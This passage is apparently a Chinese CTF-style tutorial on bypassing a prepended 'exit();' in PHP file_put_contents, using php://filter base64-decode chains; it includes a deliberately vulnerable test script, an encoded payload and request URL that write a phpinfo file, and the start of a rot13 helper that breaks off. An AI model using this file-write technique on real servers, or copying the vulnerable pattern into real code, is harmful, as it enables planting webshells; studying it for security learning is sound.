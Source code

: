 三种情况：  
`file_put_contents($filename,"<?php exit();".$content);`

`file_put_contents($content,"<?php exit();".$content);`

`file_put_contents($filename,$content . "\nxxxxxx");`

## 第一种（文件名和参数可控）

### base64

```php
$filename='php://filter/convert.base64decode/resource=delete.php';
$content = 'aPD9waHAgcGhwaW5mbygpOw==';
```

在前面加一个 a 是因为前面的解码的原因，要凑 4 个字符来  
测试源码：

```php
<?php
$filename = $_GET['filename'];
$content = $_GET['content'];
file_put_contents($filename,"<?php exit();".$content);
?>
```

传参：  
[http://127.0.0.1/2.php?filename=php://filter/convert.base64-decode/resource=delete.php&content=aPD9waHAgcGhwaW5mbygpOw](http://127.0.0.1/2.php?filename=php://filter/convert.base64-decode/resource=delete.php&content=aPD9waHAgcGhwaW5mbygpOw)\==  
可以发现

![filterchain1.png](assets/1710811396-96d622f7f3b03e0da52c26d07d99fcc8.png)  
写入成功，如果不补齐的话就会乱码就没办法解析了  
补齐之前为 31 个字符，补后就是 32 个刚好是 4 的倍数，所以可以解析

### rot13

这里我先附上转化的脚本

```python
# time : 2024/1/12
# author : DELETE
import string
result = []
upperCase = string.ascii_uppercase
lowerCase= string.ascii_lowercase
upperDict={}
lowerDict={}
print("welcome to decode rot-13!\n")
inputStr=input("please input what you want to decode\n")
while True:
    print(f"please comfirm {inputStr} is what you want to input if yes input y if not input n")
    flag=input("请确认")
    if(flag=='y') or (flag =='Y'):
        break
    if(flag=='n') or (flag=='N'):
        inputStr=input("please input what string you want to encode or decode!")
```